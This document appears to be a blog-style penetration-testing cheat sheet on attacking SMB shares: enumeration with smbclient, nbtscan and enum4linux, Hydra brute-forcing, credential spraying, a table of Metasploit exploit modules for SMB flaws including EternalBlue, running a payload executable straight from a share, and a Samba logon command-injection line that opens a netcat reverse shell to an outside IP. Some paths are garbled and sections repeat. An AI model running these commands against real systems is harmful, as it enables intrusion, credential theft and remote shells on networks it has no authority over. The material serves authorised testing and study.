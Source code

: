 ```yaml
---
layout: post
title: 'Working With SMB'
date: '2022-05-21'
description: 'A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux.'
coverimage: Working_With_SMB.jpg
tags: hydra mount, nmblookup
published: true
posttype: article
categories: article
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```